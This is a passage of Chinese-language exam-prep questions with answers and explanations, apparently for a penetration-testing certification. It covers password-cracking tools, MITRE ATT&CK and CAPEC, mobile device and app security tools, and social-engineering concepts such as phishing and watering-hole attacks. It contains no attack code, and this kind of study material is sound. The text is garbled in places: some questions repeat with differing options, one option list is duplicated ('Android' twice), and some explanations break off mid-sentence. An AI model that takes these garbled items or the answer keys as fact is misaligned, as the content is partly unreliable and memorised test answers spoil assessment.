

**A** 是正确的。截图显示了典型的 `Hashcat` 输出。该图像中的关键指标之一是引用了 `NVIDIA GeForce GTX 1070`，这是一种可以比使用 CPU Cycle 极大加速破解过程的 GPU。

**B** , **C** , 和 **D** 是错误的。**B** 是错误的，虽然 `John the Ripper` 也是一个命令行工具，但它在执行时不像截图所示工具那样利用 GPU。**C** 是错误的，因为 `Cain and Abel` 是一个 Windows 密码恢复工具，在图形界面中运行；由于涉及图像是命令行界面，你可以安全地排除 C 作为可能的答案。`Cain and Abel` 能够通过网络嗅探、哈希破解、无线网络密钥恢复等方法恢复各种密码。**D** 是错误的，因为 `Hydra` 是一种并行的登录暴力破解工具，支持多种协议。`Hydra` 轻量级、灵活、快速且模块化。

### **44 .** 哪一个 CAPEC 认可的攻击领域专注于在各自的生命周期内对计算机硬件和软件进行操纵？

**A.** 软件

**B.** 供应链

**C.** 物理安全

**D.** 通信

**B** 是正确的。在各自的生命周期内对计算机硬件和软件进行操纵是对 CAPEC 供应链领域的描述。

**A** , **C** , 和 **D** 是错误的。**A** 是错误的，因为软件领域专注于软件应用程序的利用。**C** 是错误的，因为物理安全领域专注于物理安全漏洞的利用。**D** 是错误的，因为通信领域专注于计算机系统之间的通信以及实现该通信的协议的攻击。

### **45 .** MITRE 维护的哪个知识库详细说明了用于攻击组织的技术和对手行为？

**A.** CWE

**B.** CVE

**C.** CAPEC

**D.** ATT&CK

**D** 是正确的。ATT&CK 知识库 ([`attack.mitre.org``](https://attack.mitre.org) ) 详细介绍了用于攻击组织的技术和对手行为。

**A** , **B** , 和 **C** 是错误的。**A** 是错误的，因为常见弱性枚举，或 `CWE` ([`cwe.mitre.org``](https://cwe.mitre.org) ) 是一个社区开发的常见软件安全漏洞列表。**B** 是错误的，因为常见漏洞与披露，或 `CVE` ([`cve.mitre.org``](https://cve.mitre.org) ) 是公开网络网络安全漏洞条目列表。**C** 是错误的，因为常见攻击模式枚举与分类，或 `CAPEC` ([`capec.mitre.org``](https://capec.mitre.org) ) 是一个提供帮助的字典。

### **46 .** 下列哪项 *不是*漏洞扫描器？

**A.** Nessus

**B.** OpenVAS

**C.** SQLmap

**D.** IDA

**D** 是正确的。`IDA`——或交互式反汇器——是一个可以生成汇编语言的工具，而不是漏洞扫描器。

**A** , **B** , 和 **C** 是错误的。`Nessus` 和 `OpenVAS` 是可以检测并告警潜在漏洞的漏洞扫描器。`SQLmap` 是用于利用 SQL 注入的工具。

### **47 .** 除了作为策略合规性评估之外，_\_\_\_\_\_\_\_\_ 是一种使用特定标准进行自动发现和测量的方法。

**A.** HIPAA

**B.** FISMA

**C.** SCAP

**D.** PCI DSS

**C** 是正确的。SCAP——或安全内容自动化协议是一种使用特定标准对漏洞进行自动发现和测量以及策略合规性评估的方法。

**A** , **B** , 和 **D** 是错误的。这些都是监管框架的示例。

# 第 5 章
## 移动设备与应用程序测试

本章包含以下主题的问题：

- 与专用系统相关的漏洞
- 移动端漏洞
- 移动应用程序评估工具及其用例


# 1 . 手机和平板电脑设备通常使用系统级芯片（SoC）构建，这是一个由多个物理组件组成的小型集成电路，包括以下哪些？（选择两个。）

- **A.** 中央处理器 (CPU)
- **B.** 固件
- **C.** 随机存存储器 (RAM)
- **D.** 操作系统

# 2 . 计算系统（移动端或其他）中的 GPU 起什么作用？

- **A.** 对待显示的视觉数据进行处理和渲染
- **B.** 程序或应用程序指令的计算，包括数学、逻辑和输入/输出 (I/O) 操作
- **C.** 与远程主机或系统的通信（例如通过电话）
- **D.** 固件和操作系统的长期非易失性存储

# 3 . 下列哪项最能描述移动设备上用户识别模块（SIM）的作用？

- **A.** 为移动应用程序提供临时的、通常是易失性的存储
- **B.** 允许传输短信息服务（SMS）和多媒体消息服务（MMS）
- **C.** 与远程主机或系统的通信（例如通过电话）
- **D.** 在蜂窝网络上识别并验证用户的设备

# 4 . iOS 运行在 Apple 硬件上并基于 Darwin，Darwin 源自哪个操作系统家族的开源操作系统？

- **A.** Windows
- **B.** Debian
- **C.** Unix
- **D.** Red Hat

# 5 . iOS 的哪种抽象层促进了网络和文件访问等基础服务？

- **A.** Media
- **B.** Cocoa Touch
- **C.** Core OS
- **D.** Core Services

# 6 . 根据 OWASP 移动安全测试指南定义，iOS 安全架构的哪种核心特性确保只有经过 Apple 明确批准的应用程序才能设备上运行？

- **A.** 安全启动 (Secure Boot)
- **B.** 加密和数据保护
- **C.** 代码签名 (Code signing)
- **D.** 硬件安全

# 7 . JTAG 是一个 IEEE 标准组件，其最佳定义是用于什么？

- **A.** 为移动设备调制调器提供测试能力
- **B.** 为烧录移动操作系统及其初始配置提供手段
- **C.** 提供与嵌入式系统物理连接的方法，用于调试和其他测试
- **D.** 提供视频输出的手段

# 8 . Android 应用程序的哪个组件在功能上是一个 SQLite 数据库，以平文件形式存储数据？

- **A.** Activity (Activities)
- **B.**set (Intents)
- **C.** 内容提供者 (Content providers)
- **D.** 广播接收器 (Broadcast receivers)

# 9 . Android 中存在的原生 C 和 C++ 库为哪些应用程序的支持？（选择两个。）

- **A.** Gmail
- **B.** Hangouts
- **C.** HAL
- **D.** ART

# 10 . 静态分析（有时称为静态应用程序安全测试，或 SAST）是一种用于在不执行代码的情况下检查源代码、字节码和二进制文件的调试方法。下列哪项不是作为静态分析部分的常用测试用例？

- **A.** 从原始格式对应用程序进行反汇编或反编译
- **B.** 文件和应用程序权限的分析
- **C.** 寻找信息泄露漏洞，例如硬编码凭据
- **D.** 客户端注入攻击尝试，例如 SQL 注入或本地文件包含

# 11 . 哪种具有极简 UI 的工具用于传输越狱（jailbreak）？

- **A.** Android
- **B.** Android
- **C.** Cydia
- **D.** iOS

# 12 . 哪个工具是适用于 Android、iOS 和 Windows 平台的全能渗透测试框架？

- **A.** Drozer
- **B.** Frida
- **C.** MobSF
- **D.** Objection

# 13 . 哪个工具主要用于为目标设备开发和构建包？

- **A.** Frida
- **B.** MobSF
- **C.** Cydia
- **D.** Drozer

# 14 . 哪些术描述在环境中启用高权限的过程？

- **A.** DAST
- **B.** Root 化 (Rooting)
- **C.** 转向 (Pivoting)
- **D.** 越狱 (Jailbreaking)

# 15 . 哪个工具为移动 Android 和 iOS 应用程序提供静态分析？

- **A.** Frida
- **B.** MobSF
- **C.** Cydia
- **D.** Drozer


 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为系统的中央处理单元（`CPU`）负责程序指令的计算；此类指令的示例包括数学、逻辑和输入输出（`I/O`）操作。`C` 是错误的，因为调制调器通过连接移动或其他网络与远程主机和系统进行通信。`D` 是错误的，因为系统只读存储（`ROM`）为设备的固件或操作系统提供长期的非易失性存储。

### 3 . 下列描述最符合移动设备上用户识别模块（`SIM`）的作用？

- **A.** 为移动应用程序提供临时的、通常是易失的存储
- **B.** 实现短信服务（`SMS`）和多媒体消息服务（`MMS`）的传输
- **C.** 与远程主机或系统的通信（例如，通过电话）
- **D.** 在蜂窝网络上识别并验证用户的设备

 `D` 是正确的。用户识别模块（`SIM`）通过在蜂窝网络上识别和验证用户的设备来实现移动通信。

 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为随机访问内存（`RAM`）为移动应用程序提供临时的、通常是易失的存储；将其看作是应用程序在运行时用于以保留与其执行相关的数据的“草稿空间”。`B` 和 `C` 是错误的，因为 `SMS` 或 `MMS` 消息的传输以及与远程主机或系统的其他通信是由设备的调制调器提供的。

### 4 . `iOS` 运行在 Apple 硬件上，并基于 `Darwin`，`Darwin` 起源于哪种操作系统家族？

- **A.** Windows
- **B.** Debian
- **C.** Unix
- **D.** Red Hat

 `C` 是正确的。`Darwin` 是由 Apple 开发的开源操作系统，它是 `macOS` 和 `iOS` 的基础；它本身基于 `OPENSTEP`，这是 `Unix` 家族的一种操作系统。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为 `Windows Phone` 是主要为移动平台开发的最新 `Windows` 变体；由于缺乏开发者的兴趣和市场渗透率，它已停用。`B` 和 `D` 是错误的，因为它们是标准计算环境中 `Linux` 操作系统的两个主要家族之一；`Slackware` 也在列表中。`Linux` 对移动设备的主要贡献是 `Android` 操作系统。

### 5 . `iOS` 的哪种抽象层有助于网络连接和文件访问等基础服务？

- **A.** Media
- **B.** Cocoa Touch
- **C.** Core OS
- **D.** Core Services

 `D` 是正确的。`Core Services` 抽象层有助于了 `iOS` 中的网络连接和文件访问等基础服务。

 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为 `Media` 抽象层提供了音频、图形和空中传输能力。`B` 是错误的，因为 `Cocoa Touch` 抽象层是一个用于开发在 `iOS` 上运行的应用的 UI 框架。`C` 是错误的，因为 `Core OS` 抽象层提供了电源管理和文件等关键功能。

### 6 . 根据 `OWASP Mobile Security Testing Guide` 的定义，`iOS` 安全架构的哪个核心功能确保只有经过 Apple 明确批准的应用程序才能设备上运行？

- **A.** 安全启动
- **B.** 加密和数据保护
- **C.** 代码签名
- **D.** 硬件安全

 `C` 是正确的。“代码签名”是 Apple 采用的一种实践，确保只有经过批准的应用程序可以在 `iOS` 设备上运行。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为“安全启动”（或更完整地说是“安全启动链”）使用 Apple 颁发的根证书，用于确保设备未被篡改。`B` 是错误的，因为加密、使用 `passcodes` 以及其他数据保护机制通过防止未经授权访问加密数据来确保数据的机密性。`D` 是错误的，因为硬件安全功能提供了专用的加密硬件来保护设备的操作。使用两个 `AES-256` 加密密钥，`Group ID`（`GID`）（`UID`）...

### 7 . `JTAG` 是一种 IEEE 标准，其最佳定义是？

- **A.** 为移动设备提供测试能力
- **B.** 为操作系统提供传输手段
- **C.** 提供连接到嵌入式系统进行调试和测试的手段
- **D.** 提供视频输出手段

 `C` 是正确的。`JTAG`（全称为 Joint Test Action Group）是一种 IEEE 标准，提供了连接到嵌入式系统进行调试和测试的手段。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为它不是为移动设备提供测试能力。`B` 是错误的，因为操作系统和其他固件是通过其他“烧录”的。`D` 是错误的，因为视频输出由其他机制管理。

### 8 . `Android` 应用程序的哪个组件在功能上是以文件格式存储数据的 `SQLite` 数据库？

- **A.** Activities
- **B.** Intents
- **C.** Content providers
- **D.** Broadcast receivers

 `C` 是正确的。`Android` 应用程序的内容提供者（content provider）组件是以文件格式存储数据的 `SQLite` 数据库。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为 Android 应用程序中的 `activities` 是用户可见的部分。`B` 是错误的，因为 `intents` 用于在 Android 组件之间发送消息。`D` 是错误的，因为广播接收器（`broadcast receivers`）的作用是接收来自其他应用的通知。

### 9 . `Android` 中存在的原生 `C` 和 `C++` 库支持哪些应用程序？（选择两项）

- **A.** Gmail
- **B.** Hangouts
- **C.** HAL
- **D.** ART

 `C` 和 `D` 是正确的。硬件抽象层（`HAL`）和 Android 运行时（`ART`）是 `Android` 操作系统的组件，它们使用原生代码编写，由 `Android` 中存在的 `C` 和 `C++` 库支持。`HAL` 与特定设备的内置硬件组件接口，`ART` 是运行用户应用程序的 Java 虚拟机。

 `A` 和 `B` 是错误的。Google 的 `Gmail` 和 `Hangouts` Android 应用是终端应用程序，因此它们是使用 Java 编写的应用程序，并根据 `Android` 版本运行在 `ART` 或 `DVM` 中。


# 10 .

 静态分析（有时称为静态应用安全测试，或 SAST）是一种在不执行代码的情况下检查源代码、字节码和二进制文件的调试方法。在以下哪项*不是*常作为静态分析部分的测试用例？

**A.** 从原始格式对应用进行反汇编或反编译

**B.** 分析文件和应用权限

**C.** 搜索信息泄露漏洞，例如硬编码凭据

**D.** 客户端注入攻击尝试，例如 SQL 注入或本地文件包含

**D** 是正确的。客户端注入攻击尝试必须在代码运行状态下发生。因此，这是动态应用安全测试（或 DAST）的典型测试用例。

**A**、**B** 和 **C** 是错误的。反汇编应用、分析文件和应用权限、以及搜索硬编码凭据或 IP 地址等信息泄露漏洞都是静态分析中的标准测试用例，因此它们不是此题的正确答案。

# 11 .

哪种工具具有所示的极简 UI，用于将越狱后的 IPA 传输到运行 iOS 的设备上进行安装？

**A.** Android Studio

**B.** Phoenix

**C.** Cydia Impactor

**D.** Electra



**C** 是正确的。所示工具是 Cydia Impactor，它用于将 IPA 文件（例如苹果 App Store 中无法提供的越狱应用）传输到运行 iOS 的设备上进行安装。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 Android Studio 主要用于为其目标移动环境开发和构建包，当提供创建可安装应用的项目文件时，它在静态应用分析中有某些用途。**B** 和 **D** 是错误的，因为 Phoenix 和 Electra 是适用于 iOS 设备的越狱应用；它们以 `.ipa` 文件形式分发，并使用 Cydia Impactor 传输到目标设备。

# 12 .

哪种工具是适用于 Android、iOS 和 Windows 移动平台的全功能自动化渗透测试框架，为 Android、iOS 和 Windows 移动设备提供 SAST，为 Android 提供 DAST？

**A.** Drozer

**B.** Pangu

**C.** MobSF

**D.** Clutch

**C** 是正确的。MobSF 是一个适用于移动应用的全功能“瑞士军刀”渗透测试框架，能够为 Android、iOS 和 Windows 平台提供 SAST，并为 Android 提供 DAST。其广泛的功能使其成为 Android 和 iOS 移动应用渗透测试的优秀工具。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 Drozer 是适用于 Android 的审计框架，帮助渗透人员识别和验证应用中的漏洞。它由两部分组成：安装在移动设备上的 agent 和安装在测试人员工作站上的控制。**B** 是错误的，因为 Pangu 是适用于 iOS 的越狱应用。**D** 是错误的，因为 Clutch 是一种 iOS 工具，用于将 iOS App Store 已安装的应用反汇编为用于静态分析的 `.ipa` 文件。

# 13 .

所示的哪种工具主要用于目标移动环境开发和构建包，并在提供创建可安装应用的项目文件时，在静态应用分析中有某些用途？


**A.** Drozer

**B.** Android Studio

**C.** MobSF

**D.** Cydia Impactor

**B** 是正确的。图中所示工具是 Android Studio。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 Drozer 是适用于 Android 的审计框架，帮助渗透人员识别和验证应用中的漏洞。它由两部分组成：安装在移动设备上的 agent 和安装在测试人员工作站上的命令行控制。请参阅以下控制使用的示例插图，特别是针对 SMS 功能的模块搜索。



**C** 是错误的，因为 MobSF 是一个适用于移动应用的全功能“瑞士军刀”渗透测试框架，能够为 Android、iOS 和 Windows 平台提供 SAST，并为 Android 提供 DAST。其广泛的功能使其成为 Android 和 iOS 移动应用渗透测试的优秀工具。参考以下控制启动时的启动屏插图。**D** 是错误的，因为 Cydia Impactor（如 11 题所示）是一种用于将 IPA 文件（例如苹果 App Store 中无法提供的越狱应用）传输到运行 iOS 的设备的工具。



# 14 .

哪些术语描述了在移动环境中以高权限执行用户程序的过程？（选择两个。）

**A.** DAST

**B.** Rooting

**C.** Pivoting

**D.** Jailbreaking

**B** 和 **D** 是正确的。Rooting 和 Jailbreaking 分别是 Android 和 iOS 中以高权限执行用户程序的术语。

**A** 和 **C** 是错误的。**A** 是错误的，因为 DAST（动态应用测试）是在程序运行时对应用进行测试和分析的过程。**C** 是错误的，因为 Pivoting（跳转）是渗透测试中使用的一种技术，将攻击者的流量通过被攻陷的主机和系统。跳转的目标是扩大攻击者的足迹，并增加对从内部主机访问但从攻击者入口无法访问的目标网络和子网的可见性。

# 15 .

哪种 Android 工具是具有图形界面、代码编辑器和 APK 签名功能的反向工程框架，允许用户根据需要修改并重新打包？

**A.** APKX

**B.** MobSF

**C.** APK Studio

**D.** Drozer

**C** 是正确的。APK Studio 是一个反向工程框架，通过反汇编和重组 APK 文件，适用于 Android 应用的静态分析。它具有图形用户界面、代码编辑器和 APK 签名功能，允许渗透人员在必要时重新打包 APK。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 APKX 是一种反编译器，用于直接从 Android APK 文件中提取 Java 源代码。**B** 是错误的，因为 MobSF 是一个适用于移动应用的全功能“瑞士军刀”渗透测试框架，能够为 Android、iOS 和 Windows 平台提供 SAST，并为 Android 提供 DAST。**D** 是错误的，因为 Drozer 是适用于 Android 的审计框架，帮助渗透人员识别和验证应用中的漏洞。它由两部分组成：安装在移动设备上的 agent 和安装在测试人员工作站上的控制。


# 社会工程工具及其用例

了解如何识别和攻击网络或应用程序漏洞至关重要，但在任何配置恰当的安全环境中，最脆弱的环节几乎可以确定是人为因素。事实是一个近乎普遍的真理：许多人无法一眼识别钓鱼邮件，正因如此，这些用户往往可以在攻击者不费吹灰的情况下为目标网络提供进入途径。考虑到这一安全问题——并根据渗透测试人员寻找“手而可得之果”的动力——组织针对钓鱼攻击的安全态势通常是渗透测试的一部分。

本章将评估候选人对诱导用户、鼓励其点击链接或打开文件时涉及原理的理解。它将进一步讨论执行钓鱼攻击时更广泛的策略，例如识别高价值目标、设计通信模板以及跟踪活动结果。最后，它将介绍组织最主要的防御措施——用户教育和安全培训。

### 问题

**1 .** 哪种动机技术试图利用个人在法律、组织或社会背景下对领导的尊重，来获取对财产或受控信息的访问权限？

**A.** 社会认同
**B.** 权威
**C.** 喜爱度
**D.** 恐惧

**2 .** 下列哪种社会工程攻击是水坑攻击（waterholing）的示例？

**A.** 在停车场中散布含有名为“季度奖金”的恶意 Excel 表格的 USB 闪盘
**B.** 在垃圾收集前翻找公司的垃圾，试图寻找未妥善粉碎销毁而被丢弃的敏感信息
**C.** 在组织内部广泛用于事件管理和报告的内网站点上嵌入 `XSS` 载荷
**D.** 对安全检查站的守卫轮换情况进行微妙的试探性询问

**3 .** 哪种社会工程攻击向量从广上可以被视为获取信息或预期行动的远程尝试，但也必然包含垃圾邮件、网页过滤器和防火墙评估等技术组件？

**A.** 窥视攻击
**B.** 钓鱼
**C.** 稀缺性
**D.** 审问

**4 .** 下图所示的工具是一个基于 Python 的纯文本框架，用于各种社会工程攻击，例如电子邮件钓鱼和基于网站的攻击。它叫什么？

```

```

**A.** SET
**B.** BeEF
**C.** GoPhish
**D.** Maltego

**5 .** 接下来所示的工具是一个基于 Ruby 的框架，专注于针对 Web 浏览器的渗透测试和社会工程攻击。它叫什么？

```

```

**A.** GoPhish
**B.** BeEF
**C.** Maltego
**D.** SET

### 参考以下场景：

你受雇对一家小公司进行渗透测试。作为该项目的一部分，他们要求你尝试对员工进行社会工程攻击。你被告知可以针对任何你想要的员工，但客户希望在你执行攻击之前看到你的目标列表。在进行研究期间，你识别了数百个员工的电子邮件地址，其中包括几位设计消费级家电团队的成员、一些自标识为系统管理员的人员，以及少数公司人员。对于你的钓鱼攻击，你选择创建一个模仿常用 Web 应用程序的落地页，并生成一个可以入侵用户浏览器的载荷，通过该浏览器你可以对客户的网络发起进一步的攻击。

**6 .** 翻找垃圾的行为是什么的示例？

**A.** 审问
**B.** 垃圾桶攻击（Dumpster）
**C.** 水坑攻击
**D.** 钓鱼

**7 .** 这一细节将在哪份文档中详细说明？

**A.** 交互规则 (Rules of engagement)
**B.** 主服务协议 (MSA)
**C.** 参与前准备 (Pre-engagement)
**D.** 保密协议 (Nondisclosure agreement)

**8 .** 在以下选项中，最可能使用了哪种工具？

**A.** BeEF
**B.** Maltego
**C.** theharvester
**D.** SET

**9 .** 在场景中，为网站创建此虚拟身份（persona）是什么的示例？

**A.** 紧急性
**B.** 伪装（Pretexting）
**C.** 水坑攻击
**D.** 审问

**10 .** 在现场期间，你通过什么识别出了有效的用户名和密码？

**A.** 诱饵钓鱼
**B.** 窥视攻击
**C.** 审问
**D.** 水坑攻击

### 参考以下场景：

你受雇对一家大型跨国公司进行渗透测试。作为该项目的一部分，他们要求你尝试对员工进行社会工程攻击。你被告知可以针对任何你想要的员工，但客户在你开展活动之前不会提供任何电子邮件地址。在进行研究期间，你识别了数百个员工的电子邮件地址，其中包括几位设计消费级家电团队的成员、一些自标识为系统管理员的人员，以及少数公司高级人员。

**11 .** 于客户未提供信息，以下哪种工具是开始侦察目标（casing）以识别关键信息（例如收集人员姓名或公司邮箱格式）最高有效率的方法？

**A.** OSINT Framework
**B.** SET
**C.** theharvester
**D.** BeEF

**12 .** 组织被允许在执行钓鱼攻击之前查看你的目标列表的要求，最可能在哪个份文档中详细说明？

**A.** 主服务协议 (MSA)
**B.** 保密协议 (NDA)
**C.** 交互规则 (RoE)
**D.** 书面授权信

**13 .** 你选择专门为设计消费级家电的团队撰写一封特定的钓鱼邮件。这是什么的示例？

**A.** 语音钓鱼 (Vishing)
**B.** 诱饵钓鱼
**C.** 水坑攻击
**D.** 鱼叉式钓鱼 (Spear phishing)

**14 .****你为这次活动又撰写了另一组钓鱼邮件：一组针对系统管理员，另一组针对公司高级人员。这是什么的示例？

**A.** 鲸鱼式钓鱼 (Whaling)


## B. 水坑式攻击 (Waterholing)
## C. 诱饵攻击 (Baiting)
## D. 借装攻击 (Pretexting)

### [15]. 下列工具最适合渗透终端用户的网络浏览器，以便你利用它们对客户端网络执行进一步攻击？

A. SET
B. Maltego
C. BeEF
D. exim4

***

### 快速答案对照

[1]. B
[2]. C
[3]. B
[4]. A
[5]. B
[6]. B
[7]. A
[8]. D
[9]. B
[10]. B
[11]. C
[12]. C
[13]. D
[14]. A
[15]. C

***

### 深度解析

### [1]. 哪种动机技术试图利用人们在法律、组织或社会背景下对领导的尊重，来获取财产或受控信息？

A. 社会认同 (Social proof)
B. 权威 (Authority)
C. 亲感 (Likeability)
D. 恐惧 (Fear)

 **B** 是正确的。将权威作为一种动机技术，依赖于滥用人们对法律、组织和社会领导人物的信任，以进入受保护区域或获取受控信息。

 **A**、**C** 和 **D** 是错误的。**A** 是错误的，因为将社会认同作为动机技术，依赖于利用人们追随群体以及向他人寻求线索以判断在特定情况下何为正确行为的本能。例如，考虑任何声称其产品是行业内评分最高的广告。**C** 是错误的，因为将亲和力作为动机因素，在于与目标建立良好关系，并让他们从从直觉上信任你。**D** 是错误的，因为将恐惧作为动机因素依赖于唤起恐慌感，通过恐吓目标使其泄露信息或授予对安全区域的访问权限。有几个勒索软件家族（Spider、Jigsaw 和 Scarab）依赖恐惧作为动机，通过威胁如果未收到付款，将删除文件或提高赎金价格。

### [2]. 下列哪种社会工程攻击是水坑式攻击的示例？

A. 在停车场内撒布含有“季度奖金”恶意内容的 USB 闪盘
B. 翻找公司的垃圾以寻找被丢弃但未妥善粉碎的敏感信息
C. 在组织内部广泛用于事件管理和报告的内网站点上嵌入 XSS 负载
D. 针对安全检查站提出一些微妙的探听性提问

 **C** 是正确的。利用内部信任的网站来托管恶意负载是水坑式攻击的示例。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为留下带有诱人名称的 Excel 表格的优盘是诱饵攻击的示例。**B** 是错误的，因为翻找公司的垃圾属于垃圾桶倾倒 (Dumpster diving)。**D** 是错误的，因为通过仔细提问来诱目标目标信息是审讯 (Interrogation) 的示例。

### [3]. 哪种社会工程攻击向量可以广泛被视为一种引发行动的远程尝试，但必然包括垃圾邮件、Web 过滤器和防火墙等技术组件？

A. 窥视 (Shoulder surfing)
B. 钓鱼 (Phishing)
C. 稀缺性 (Scarcity)
D. 审讯 (Interrogation)

